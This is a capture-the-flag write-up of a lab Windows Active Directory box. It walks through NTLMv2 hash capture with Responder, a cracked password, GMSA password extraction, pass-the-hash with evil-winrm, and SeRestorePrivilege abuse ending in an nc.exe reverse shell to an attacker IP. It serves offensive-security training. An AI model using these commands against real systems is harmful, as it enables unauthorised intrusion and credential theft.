# Heist -- Proving Grounds (write-up)

**Difficulty:** Hard
**Box:** Heist (Proving Grounds)
**Author:** dsec
**Date:** 2025-02-01

---

## TL;DR

### Responder captured NTLMv2 hash from a web request, cracked it. BloodHound showed ReadGMSAPassword on a service account. Extracted the GMSA hash, got a shell as svc_apache$, then abused SeRestorePrivilege via the seclogon service for SYSTEM.
---
## Target info

- Host: `192.168.221.165`
- Services discovered via nmap
---
## Enumeration

```bash
sudo nmap -Pn -n 192.168.221.165 -sCV -p- --open -vvv
```





---
## Responder -- NTLMv2 capture

```bash
sudo responder -I tun0
```



Captured `enox` NTLMv2 hash.



`enox:california`

---
## BloodHound -- GMSA path











BloodHound showed ReadGMSAPassword privilege on `svc_apache$`.

Confirmed the account is a GMSA-enabled service account:

```powershell
Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}
```

Got more details on the service account:

```powershell
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames
```

Checked group membership:

```powershell
Get-ADGroupMember 'Web Admins'
```

Extracted the GMSA hash:

```powershell
.\GMSAPasswordReader.exe --accountname svc_apache$
```



Hash: `EA903FC3E46C88CFE2919D0C1CDC1162`

```bash
evil-winrm -i 192.168.188.165 -u 'svc_apache$' -H 'EA903FC3E46C88CFE2919D0C1CDC1162'
```



---
## Privilege escalation -- SeRestorePrivilege





svc_apache$ has SeRestorePrivilege.

Targeted the `seclogon` service -- known to have manual start permissions for all authenticated users:

```powershell
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\seclogon
```



```bash
cmd.exe /c sc qc seclogon
```



Confirmed permissions:

```bash
cmd.exe /c sc sdshow seclogon
```



The `RP` descriptor with `AU` group means all authenticated users can start this service.

Used SeRestoreAbuse.exe:

```powershell
.\SeRestoreAbuse.exe "C:\temp\nc.exe 192.168.45.208 4444 -e powershell.exe"
```



Shell was unstable but lasted long enough to get the flag. To stabilize: catch the SYSTEM shell and immediately push another shell to a second listener using just nc.exe.

---
## Lessons & takeaways

- Responder is always worth running -- web apps making outbound requests can leak NTLMv2 hashes
- GMSA password extraction requires being in the right group -- BloodHound maps this path
- SeRestorePrivilege + seclogon service = SYSTEM via SeRestoreAbuse
- Unstable shells can be stabilized by immediately chaining to a second listener
